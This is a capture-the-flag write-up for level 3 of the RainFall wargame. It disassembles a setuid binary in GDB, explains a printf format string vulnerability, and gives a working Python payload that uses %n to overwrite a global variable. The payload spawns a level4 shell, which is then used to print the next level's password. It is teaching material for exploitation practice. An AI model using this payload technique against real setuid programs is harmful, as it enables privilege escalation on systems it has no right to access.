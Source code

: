 # Level3

## Walkthrough

We list the files in the current home directory.

```bash
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
level3@RainFall:~$ file level3
level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.24, 
 BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```

The file is owned by **level4** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini
```

There are 2 interesting functions: `main()` and `v()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   ebp
   0x0804851b <+1>:     mov    ebp,esp
   0x0804851d <+3>:     and    esp,0xfffffff0
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

The `main()` function only calls the `v()` function.

```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218
   0x080484ad <+9>:     mov    eax,ds:0x8049860
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:    lea    eax,[ebp-0x208]
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    eax,[ebp-0x208]
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
   0x080484df <+59>:    cmp    eax,0x40
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    eax,ds:0x8049880
   0x080484e9 <+69>:    mov    edx,eax
   0x080484eb <+71>:    mov    eax,0x8048600
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

The `v()` function:
- calls `fgets()` to read input into a buffer located at `ebp - 0x208`
- calls `printf()` to print the buffer to stdout
- retrieves the value of a global variable stored at memory address `0x804988c` into the `eax` register
- compares the value of `eax` with `0x40` (64 in decimal) and calls `system("/bin/sh")` if the condition is met

`v()` is vulnerable to a format string vulnerability which occurs when an user input is improperly used as a format string in functions like `printf()`, allowing attackers to manipulate memory, access sensitive data, or execute arbitrary code.  
Our goal is to overwrite the value stored at the address `0x804988c` and replace it with the number **64**.

The `printf()` function requests only one mandatory argument. The others, if needed, are also stored on the stack before the call (the first argument being at the top). This means it keeps iterating over the stack as long as it finds a format specifier.  
Furthermore, the function includes the format specifier `%n` which writes the number of printed characters into the address provided as its corresponding argument. If we input a memory address into the format string, and it matches the `%n` specifier, the number of written characters will be stored at this address.

To complete this level, we have to first find the position of the user input on the stack during the call to `printf()` compared to the position its first argument.

```
(gdb) b printf
Breakpoint 1 at 0x8048390
(gdb) r
Starting program: /home/user/level3/level3 
AAAA

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) stepi
0xb7e78851 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
eax            0xbffff430       -1073744848
ecx            0xb7fda005       -1208115195
edx            0xb7fd28c4       -1208145724
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff418       0xbffff418
ebp            0xbffff638       0xbffff638
esi            0x0      0
edi            0x0      0
eip            0xb7e78851       0xb7e78851 <printf+1>
eflags         0x200292	[ AF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/16wx 0xbffff418
0xbffff418:     0xb7fd0ff4     0x080484da     0xbffff430     0x00000200
0xbffff428:     0xb7fd1ac0     0xb7ff37d0     0x41414141     0xb7e2000a
0xbffff438:     0x00000001     0xb7fef305     0xbffff498     0xb7fde2d4
0xbffff448:     0xb7fde334     0x00000007     0x00000000     0xb7fde000
```

We see that our string represented in hexadecimal as `0x41414141` is located at `0xbffff430`, and we find this address near the top of the stack. We confirm that our format string is in **4th** position in the stack after the first argument passed to `printf()`.

Finally, with the position in mind, we input the target address followed by 3 `%(x)x` format specifiers and our final `%n` in fourth position, for a total of 64 characters.

```bash
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%8x%8x%44x%n')"; cat) | ./level3 
�     200b7fd1ac0                                    b7ff37d0
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Resources

- [Format-String Vulnerability](https://fengweiz.github.io/20fa-cs315/labs/lab3-slides-format-string.pdf)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings)
- [Format String Vulnerability](https://hackinglab.cz/en/blog/format-string-vulnerability)
